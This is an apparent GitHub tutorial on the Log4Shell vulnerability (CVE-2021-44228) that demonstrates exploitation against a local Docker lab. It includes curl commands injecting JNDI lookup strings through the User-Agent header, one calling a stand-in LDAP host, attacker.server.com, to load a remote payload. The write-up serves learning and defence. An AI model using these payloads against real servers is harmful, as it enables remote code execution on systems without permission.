 # Log4J / CVE-2021-44228
    Versions: All versions from 2.0-beta9 to 2.16


CVE-2021-44228 or Log4Shell is a vulnerability found in the Java library with the maximum criticality score of CVSS 10/10. The library named Log4j got this rating because besides being very popular, it grants access to Remote Code Execution (RCE).

It is still used by many companies of all types and sizes and even after months of its discovery being made public, a lot of hosts still haven't updated their software. Here in this article, I present a way to run the exploit so that you can understand the vulnerability and prevent it from being exploited on your system and also explain a little about your application.

This vulnerability creates an active connection to LDAP, loading a Java Class or Jar that would be a malicious file directly into memory, causing the execution context to be ready. With Java already being interpreted as binary, it would already be executed and with that, accessing the memory. And accessing the memory, grants us access to databases, files... anything we want to do.

Your first targets are usually data entry points like username and password logins, http headers like User-Agent, X-Forwarded-For and others. Basically anywhere the user can provide data.

To perform this exploit, I used a vulnerable and easy-to-apply LAB with Log4J available in this [GIT](https://github.com/leonjza/log4jpwn).

![docker](https://user-images.githubusercontent.com/66689576/160430502-abc2c99e-7a65-48d5-913d-f165442ef757.png)

With docker running on port 8080, we can start to identify if the server is vulnerable to log4shell or not.
It may be interesting to check the version of Log4J, if there is a log where you can insert some information that the application does not consider as a string, as well as an endpoint with some protocol such as HTTP for example, which may allow sending a malicious string.

At first, I will use **curl** to send a request to the server, requesting the java version from the User-Agent.

    curl -v -H 'User-Agent: ${java:version}' '172.17.0.1:8080/'

Making the server run it: 

![ua](https://user-images.githubusercontent.com/66689576/160430578-9caa5e17-129b-4bc3-a7fd-1e574ac4fc2e.png)

## Execution

Now we can get a little better look at what's to come. If in our request, we use the **JNDI** (Java Naming and Directory Interface) protocol, it becomes possible to execute some malicious payload inside the server, thus triggering the log4j vulnerability, which, after execution, makes the server returns us a Java classpath, which was injected earlier.

This injected payload when triggered, gives the attacker access to execute arbitrary code. 

	curl -v -H 'User-Agent: ${jndi:ldap://attacker.server.com/payload}' '172.17.0.1:8080/'
	
JNDI is an independent API that gives access to directory services, bringing objects or data to the client side through information (name). Its two basic functions are to associate a name with a resource and to find a resource by its name. 

When we make a request to the User-Agent, sending what would be the payload, through Curl to the server, we are acting within the network itself, being safer to detect the vulnerability.

![curlTrue](https://user-images.githubusercontent.com/66689576/162072699-82285f21-70d6-4668-b94c-96a1ab4eb771.png)

Here we can see that a connection was established with my machine, when the server (docker) executed the payload I sent to it, thus releasing the opportunity for an RCE.

![nc22222](https://user-images.githubusercontent.com/66689576/162073080-26e07482-377c-43d7-afd7-b8009d32631e.png)

Server-side view running the payload:

![logLog](https://user-images.githubusercontent.com/66689576/162073340-6db1bf73-975d-47b7-97d7-011c7c7c76c8.png)

## Conclusion

Between these versions it is possible to execute a script/payload on the server where the application is, opening the possibility of creating an RCE connection through any field that we can insert data, http headers...

That's it :)

